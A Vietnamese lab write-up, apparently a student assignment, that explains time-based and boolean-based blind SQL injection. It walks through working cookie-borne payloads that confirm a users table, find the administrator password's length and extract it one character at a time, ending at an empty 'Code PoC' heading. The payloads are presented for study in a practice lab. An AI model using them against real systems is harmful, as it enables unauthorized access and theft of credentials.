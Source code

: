 Người thực hiện: Lê Trần Văn Chương.
Deadline: 31/03 - 02/04/2022.
Mục lục:
- [Lỗ hổng SQL Injection Time Based và Boolean Based là gì?](#lỗ-hổng-sql-injection-time-based-và-boolean-based-là-gì)
- [Lab Blind SQLi?](#lab-blind-sqli)
- [Code PoC](#code-poc)

## Lỗ hổng SQL Injection Time Based và Boolean Based là gì?
- Time-based SQLi đây là 1 kỹ thuật tấn công chậm, mục đích làm trì hoãn việc truy vấn dữ liệu từ client. Trong khoảng thời gian bị trì hoãn đó kẻ tấn công có thể thực hiện các câu truy vấn khác và sau khi có phản hồi thì kẻ tấn công của có thể biết được loại DB mà máy chủ đang dụng.
- Boolean based SQLi cũng là kỹ thuật tấn công chậm, tùy thuộc vào kết quả boolean (True or False), nội dung trong phản hồi HTTP sẽ thay đổi hoặc giữ nguyên. Kết quả cho phép kẻ tấn công đánh giá liệu trọng tải được sử dụng trả về đúng hay sai.
=> Cả 2 loại tấn công trên được gọi chung là Blind SQLi.

## Lab Blind SQLi?
- Lab sử dụng tracking cookie để phân tích và truy vấn SQL. 
- Truy vấn trả về thông báo 'Welcome back!' hoặc không trả về thông báo. (True or False)

1. Ta dùng extension `EditThisCookie` của chrome để có thể bắt được TrackingId và TrackingId của lab là `SHgOlSPYCX3mPVyc` của Lab.

2. Ta thêm truy vấn logic và sao TrackingId để nắm bắt cơ chế của nó.
    `TrackingId' and 1=1`-- => Hiện thông báo `Welcome back!`
    `TrackingId' and 1=0`-- => Không hiện thông báo.

3. Ta thử thêm truy vấn select để xem thử có bảng users, username là administrator và password như lab đã cho không.
    `TrackingId' and(select 'x' from users LIMIT 1)='x'`-- => Hiện thông báo `Welcome back!`. Vậy là có bảng users.
    Sử dụng `Burp suite` để payload username bằng cách sử dụng hàm `substring` để lấy từ ký tự trong username.
    `TrackingId' and(select substring(username,1,1) from users LIMIT 1 )='a'--` => Hiện thông báo `Welcome back!`. Vậy là có username là administrator.
    
    Vì không biết password có đồ dài bao nhiêu nên ta sử dụng LENGHT để có thể kiểm tra độ dài của password
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>1)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài > 1 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>25)='administrator'--` => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 25 ký tự.
    Tiếp tục test
    
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>20)='administrator'--` => Không hiện thông báo. Vậy chứng tỏ password có độ dài < 20 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)>19)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài > 19 ký tự.
    `TrackingId' and(select username from users where username = 'administrator' and LENGTH(password)=20)='administrator'--` => Hiện thông báo `Welcome back!`. Vậy chứng tỏ password có độ dài 20 ký tự.

4. Bây giờ, chúng ta đã biết username là administrator và password có đồ dài từ 20 ký tự. Sử dụng `Burp suite` để payload password của administrator bằng cách sử dụng hàm substring để lấy từ ký tự trong password.
    `TrackingId' and(select substring(password,1,1) from users where username = 'administrator' )='a'--`
    Sau khi payload thì ta có được 1 chuỗi password như sau: `vxeddqsvrm6gfo75xs7h`

## Code PoC